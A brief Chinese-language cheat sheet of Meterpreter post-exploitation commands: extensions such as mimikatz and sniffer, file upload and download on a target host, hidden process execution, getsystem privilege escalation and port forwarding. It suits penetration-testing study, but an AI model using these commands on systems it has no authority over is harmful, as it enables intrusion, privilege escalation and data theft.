 ## 可能会用到的常用代码整理

## load -l

查看所有可以使用的插件
```
espia
extapi
incognito
kiwi
lanattacks
mimikatz
peinjector
powershell
priv
python
sniffer
stdapi
unhook
winpmem
```




### 文件上传
```
upload <file> <destination>
\\上传文件到Windows主机 注意：使用-r参数可以递归上传上传目录和文件
```
### 文件下载
```
download <file> <path to save>
 \\可以下载远程主机上的文件,

 如果我们需要递归下载整个目录包括子目录和文件，我们可以使用download -r命令
```
### 文件执行
```
在目标主机上执行exe文件
execute -f <path> [options]
```
### 获取权限
```
获取admin权限
getsystem
```
目标主机上执行exe文件
```
execute -H -i -f cmd.exe \\
  创建新进程cmd.exe，-H不可见，-i交互

  execute -f <path> [options]   \\在目标主机上执行exe文件
```
### 显示进程
```
ps
```
### 创建端口转发
```
portfwd add -l <端口号> -r <目标IP>
```
